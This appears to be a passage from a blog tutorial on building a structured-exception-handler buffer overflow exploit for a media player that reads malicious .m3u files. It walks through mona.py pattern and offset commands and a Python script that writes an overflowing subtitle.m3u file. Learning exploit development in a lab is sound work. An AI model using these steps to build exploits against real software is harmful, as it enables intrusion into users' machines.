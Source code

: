 !mona pc 6000

This will generate a metasploit pattern of 6000 bytes. Open the pattern.txt that it creates which will be placed in the folder that you specified on start up. If you don't know what that is you can change it with:

!mona config -set workingfolder C:\\logs

(Thanks for corelanc0d3r for providing this information on the front page of his download page)

Ok open it up and copy over the string into the exploit code. It should look like this:

[![](https://4.bp.blogspot.com/-X6HesxqW3h4/UIxf_Mo_dEI/AAAAAAAAACY/8l8GRxeMCH0/s0/Windows+XP+Professional+SP2+-+VMware+Player_006.png)](https://4.bp.blogspot.com/-X6HesxqW3h4/UIxf_Mo_dEI/AAAAAAAAACY/8l8GRxeMCH0/s0/Windows+XP+Professional+SP2+-+VMware+Player_006.png)

 The mona.py pattern creation.

[![](https://2.bp.blogspot.com/-vzg1tcbYAs0/UIxgaD7sKyI/AAAAAAAAACg/JkwFYBdgqDk/s0/Windows+XP+Professional+SP2+-+VMware+Player_007.png)](https://2.bp.blogspot.com/-vzg1tcbYAs0/UIxgaD7sKyI/AAAAAAAAACg/JkwFYBdgqDk/s0/Windows+XP+Professional+SP2+-+VMware+Player_007.png)

 How the exploit should now look.

Ok so now we need to generate the .m3u file again and load it up in the program. When the program crashes with the new file it should look like this:

[![](https://1.bp.blogspot.com/-8XVGz_6Dh1o/UIxg8kV8UTI/AAAAAAAAACo/lbabhFFhHag/s0/Windows+XP+Professional+SP2+-+VMware+Player_008.png)](https://1.bp.blogspot.com/-8XVGz_6Dh1o/UIxg8kV8UTI/AAAAAAAAACo/lbabhFFhHag/s0/Windows+XP+Professional+SP2+-+VMware+Player_008.png)

Now what we could do is do pattern\_create to find out the offset but I prefer to use mona.py and is handy feature called "findmsp". To do this type in:

!mona findmsp

If we look at the result we should see a bunch of output. We are only interested in this line though:

[![](https://2.bp.blogspot.com/-PdNO1Mjnvmk/UIxh9cCsHcI/AAAAAAAAACw/xt_H9gd-Tlo/s0/Windows+XP+Professional+SP2+-+VMware+Player_009.png)](https://2.bp.blogspot.com/-PdNO1Mjnvmk/UIxh9cCsHcI/AAAAAAAAACw/xt_H9gd-Tlo/s0/Windows+XP+Professional+SP2+-+VMware+Player_009.png)

This tells us that the NSEH handler was overwritten 4076 bytes in. Now in actuality the NSEH handler is written 4078 bytes in. I'm not sure what causes this and if you want you can use the following code with only 4076 bytes and see the difference but for the sake of space I will not recreate it here.

Anyway, we now change our code to this:

#!/usr/bin/python
junk  = "\x41" * 4078
nseh = "B" * 2
seh = "C" * 2
exploit = junk + nseh + seh
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()
